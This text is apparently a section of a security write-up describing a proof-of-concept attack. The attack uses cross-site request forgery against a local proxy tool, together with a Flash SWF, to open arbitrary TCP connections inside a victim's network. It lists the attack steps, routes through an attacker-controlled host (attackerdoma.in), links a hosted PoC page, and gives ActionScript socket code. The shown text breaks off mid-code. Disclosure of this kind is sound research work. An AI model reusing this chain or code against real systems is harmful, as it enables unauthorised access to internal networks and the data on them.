 # PoC - Connect to arbitrary hosts and read/write arbitrary TCP data
While reading and writing HTTP traffic is fun, the holy grail of internal network access is the ability to read/write arbitrary TCP traffic. This is actually possible due to Adobe Flash. Flash has had the ability to read/write raw TCP sockets for a number of years however it requires that the TCP server it connects to respond with a [socket policy file](http://www.adobe.com/devnet/flashplayer/articles/socket_policy_files.html) when requested. Thankfully, per the documentation, once flash has received permission it will cache it indefinitely (per IP/port pair):

> Once Flash Player receives permission, it will remember the result for the lifetime of the SWF file. Flash Player associates each socket policy file to an IP address, and it needs a policy file for each connection to a new IP address. For instance, assume that the developer specifies a hostname for the connection and that a DNS lookup returns multiple IP addresses. Every time the IP address changes for the hostname, Flash Player will check the new IP address for a socket policy file. This helps to protect against DNS rebinding attacks.

By using a similar technique as the previous PoC we can swap out the upstream proxy once this permission has been granted and cached, allowing us to read/write arbitrary TCP traffic within the network. The attack looks like this:

1. Load a specially crafted SWF file which we will use to send the data
2. CSRF create a new `policy` proxy pointing to `attackerdoma.in:17654`
2. Trigger the SWF to open a socket to the `policy` proxy which will grant full permissions (and be cached for the lifetime of the SWF) 
3. Use the CSRF to change the upstream for the `pivot` proxy to point to our target TCP address.
4. Make arbitrary TCP connections from the SWF

The PoC for this consists of two parts...
PoC available at: [attackerdoma.in/0761bfa0-b69a-436b-a474-c67b04157abd.html](http://attackerdoma.in/0761bfa0-b69a-436b-a474-c67b04157abd.html)

The ActionScript for the SWF file is as follows (compiled with the Adobe Flex SDK 4.6):

```actionscript
package {
	import flash.display.Sprite;
	import flash.net.Socket;
	import flash.system.Security;
	import flash.events.*;
	import flash.external.ExternalInterface;

	public class Main extends Sprite {

		public function Main() {
			Security.allowDomain("*");
			Security.allowInsecureDomain("*");
			ExternalInterface.addCallback("connect", connect);
			ExternalInterface.call("onready");
		}

		public function dataHandler(event:ProgressEvent):void { 
			var socket:Socket = event.target as Socket;
			var msg:String = socket.readUTFBytes(socket.bytesAvailable); 
			ExternalInterface.call("onsocketdata", escape(msg));
		}

		public function closeHandler(event:Event):void { 
			ExternalInterface.call("onsocketclose");
		}

		public function connect(host:String, port:int, msg:String):String {
			var socket:Socket;
			socket = new Socket();
			try {
				socket.connect(host, port);
```